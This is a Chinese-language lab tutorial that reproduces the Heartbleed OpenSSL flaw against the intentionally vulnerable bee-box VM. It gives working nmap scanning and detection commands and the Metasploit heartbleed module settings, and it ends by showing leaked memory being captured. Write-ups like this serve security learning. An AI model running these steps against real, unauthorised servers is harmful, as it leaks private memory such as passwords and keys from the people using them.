









### 前期准备

攻击机器还是kali，靶机这里用到的是[beebox](https://sourceforge.net/projects/bwapp/files/bee-box/)，下载完之后解压导入虚拟机就可以开始使用了。

### nmap扫描

攻击发起前，肯定是kali先进行扫描，查看同一网段哪些机器在线。

<!-- more -->

```bash
  nmap -T4 -A -v -Pn 192.168.20.1/24
```

扫描完成后发现有一台192.168.20.136的机器在线，复现心脏滴血用到的端口是8443。



### 脚本探测

看到机器在线后，使用一个工具探测其8443端口是否可以利用，查看靶机是否有可以利用的机会。

```bash
  nmap 192.168.20.136 -p 8443 --script ssl-heartbleed.nse
```

文字显示是“VULNERABLE”，代表漏洞可以被利用。



### 开始攻击

打开```msfconsole```工具，搜索```heartbleed```，使用1。

```bash
  msfconsole -q
  search heartbleed
  use 1
```



使用```show options```查看相应的参数并设置，包括```rport```，```rhost```，```verbose```。

```bash
  set rport 8443
  set rhost 192.168.20.136
```





其中```verbose```是要在```show advanced```下查看的，默认是```false```，我们```set verpose true```设置为```true ```，只有这样我们才能明文显示（终端显示）我们拿到的64K的数据。

```bash
  show advanced
  set verbose true
```



最后可以用```show missing```查看遗漏的设置参数，没有遗漏，就可以开始运行了。

```bash
  show missing
  run
```



kali在这边运行着，然后回到靶机上随便点点点，只要发生操作，就会有数据外泄。



最后我们回到kali，发现已经拿到数据了。



心脏滴血的复现到这里就完成了。